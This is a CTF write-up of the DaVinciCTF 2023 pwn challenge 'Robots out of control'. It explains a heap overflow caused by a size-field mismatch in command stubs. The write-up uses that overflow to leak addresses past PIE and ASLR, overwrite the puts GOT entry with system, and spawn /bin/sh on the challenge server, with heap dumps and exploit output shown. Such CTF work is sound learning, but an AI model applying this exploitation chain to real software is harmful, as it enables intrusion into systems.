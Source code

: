 # DaVinciCTF 2023 — Pwn Write-up : Robots out of control

From Saturday, March 11 to Sunday, March 12, 2023, the DaVinci CTF was organized by the students of the Pôle Léonard de Vinci. Our team finished 10th overall out of 289 teams.


![](./data/dvinci.png)

Let’s go for a writeup of the Robots out of control challenge in Pwn category.

Thanks to the DaVinciCode team for creating this challenge and managing the CTF!

```
One of our warriors robot (called eva) has been corrupted by an unknow enemy. We have lost the control and he is now in berserk mode. Hopefully we have developped a rescue terminal in case some issue happen. You have to disable the berserk mode through the terminal, you can use all techniques you want. Here is the binary

nc pwn.dvc.tf 8889 
```

files: [robotsoutofcontrol.tgz](./robotsoutofcontrol.tgz)

## Analysis

This time we are simply given the ELF (and the Dockerfile?) and have to find the vulnerability ourselves.

```
$ ./vuln 
	EVA remote rescue terminal
		A. Exit
		B. Drop emergency shell
		C. New command stub
		D. Edit command stub
		E. Print command stub
		F. Inject command stub
		G. Print this menu
		NERV. All right reserved
>>
```

We can create, edit, print and inject "command stubs", that are a struct looking like this, from what I understood:

```c
struct stub {
  char* command_ptr;  // -> stub.command_content
  int command_size;
  char** ramiel_msg = 0x00[]72f0;  // 0x00[]72f0 -> 0x00[]72c0 -> "Damn..."
  int ramiel_size = 0x21;
  char[10] command_content;
}
```

When we create a new command stub, we can specify a command. The code takes only the first 10 chars and put them in `command_content`. The issue is that `command_size` is equal to the size of the string we entered, and not the max size of the `command_content` buffer (10).
So if we enter "AAAAAAAAAAAAAAAAAAAA" (20xA), we will have 10xA in`command_conent` and 0x14 (20) in `command_size`.

This is bad, because the function `edit_command_stub` reads `stub.command_size` chars from the stdin and puts them in `*command_ptr`, creating a heap overflow.

## The heap overflow

When we create 2 stubs, here's the state of the heap:
```
stub0:             0x555582c0    0x00005555
				   0x00000123    0x00000000
				   0x555572f0    0x00005555
                   0x00000021    0x00000000
				   0x41414141    0x41414141
				   0x41414141    0x00414141

dontcare:          0x00000000    0x00000000
				   0x00000021    0x00000000

stub1:             0x55558300    0x00005555
				   0x00000123    0x00000000
				   0x555572f0    0x00005555
				   0x00000021    0x00000000
			       0x42424242    0x42424242
                   0x42424242    0x00424242
```

(Note that both stub have a `command_size` of 0x123, so we can trigger the overflow)

Now, if we edit stub0 and write something like 48xA, we now have:

```
stub0:             0x555582c0    0x00005555
				   0x00000123    0x00000000
				   0x555572f0    0x00005555
                   0x00000021    0x00000000
				   0x41414141    0x41414141
				   0x41414141    0x00414141

dontcare:          0x41414141    0x41414141
				   0x41414141    0x41414141

stub1:             0x41414141    0x41414141
				   0x41414141    0x41414141
				   0x5555720a    0x00005555
				   0x00000021    0x00000000
			       0x42424242    0x42424242
                   0x42424242    0x00424242
```

We successefully overwritted pointers of stub1 !
Since we can control the pointers of stub1, we know we have both arbitrary write and arbitrary read thanks to the functions `print_command_stub` and `edit_command_stub` that both uses `stub.command_ptr` to perform.

I was really happy when achieving this, but when trying to exploit it locally nothing worked, I completely forgot that the binary was PIE... Went to sleep sad because I could not think straight.


### Bypass PIE

When explaining where I was to a teammate, we quickly found out how to leak an address in order to bypass PIE, we just had to write until just before the address we want to leak and print the command of stub0, that will print the heap until a null byte, which means leaking an address!

Thanks to that, we can leak the address of the hard coded string "DAMN, we are getting fucked by Ramiel" (who tf is ramiel anyway), and since the string is in the data section, we can retrieve the base address of the binary by substracting it's offset.

### Bypass ASLR

Since we have bypassed PIE, we can now use a ret2plt attack in order to leak and address of a LIBC function and retrieve the base address of LIBC with the same process for the PIE bypass. 
Since I know the base address of the binary, I also know where the GOT segment is, so I made another heap overflow, since time overwritting the value of `stub.command_ptr` with the address of `got.puts`. Then we simply need to call `print_command_stub` on the stub, and this will leak the content of `got.puts`, which is the address of the libc puts in the memory (where libc has been mapped). Since the version of libc is not known, we also have to find the version by leaking 2 other functions, and going to a site like [this one](https://libc.rip/) in order to get the version of libc and the interesting offset (the offset of puts in order to calculate libc base address and the offset of system to our ret2libc attack)

### Ret2libc

Now, it's a simple ret2libc attack: since I already have an arbitrary write, I just have to replace the address of `got.puts` to the address of system, that we can calculate since we have bypassed ASLR.

Once, we did that, we just have to write "/bin/sh" as the `command_content` of a stub, and when we'll `print_command_stub` on it, it will execute `system("/bin/sh")` :)


### Conclusion

My entire exploit code is [here](./exploit.py)

```
$ python3 exploit.py
[*] '/home/gammray/Documents/CTF/dvctf/pwn/robot_out_of_control/vuln'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.dvc.tf on port 8889: Done
[*] Creating attacking stub n°0 with max command size of 512
[*] stub n°0 created
[*] Creating attacking stub n°1 with max command size of 512
[*] stub n°1 created
[*] Editing stub n°0
[*] stub n°0 edited
STUB ADDR        :  0x55c44a3a32f0
BASE ADDR OFFSET :  0x6ef4e4c000
PUTS GOT ADDR    :  0x55c44a3a3220
[*] Creating attacking stub n°3 with max command size of 512
[*] stub n°3 created
[*] Creating attacking stub n°4 with max command size of 512
[*] stub n°4 created
[*] Editing stub n°3
[*] stub n°3 edited
LIBC PUTS        :  0x7ffa23cc4ed0
LIBC BASE ADDR   :  0x7ffa23c40000
SYSTEM ADDR      :  0x7ffa23c94d60
[*] Creating attacking stub n°9 with max command size of 512
[*] stub n°9 created
[*] Creating attacking stub n°10 with max command size of 512
[*] stub n°10 created
[*] Editing stub n°9
[*] stub n°9 edited
[*] Editing stub n°10
[*] stub n°10 edited
[*] Creating attacking stub n°11 with max command size of 512
[*] stub n°11 created
[*] Switching to interactive mode
Enter the index of your command stub (should be in range 0,255 included)
>>sh: 1: Start: not found
$ ls
flag
run
```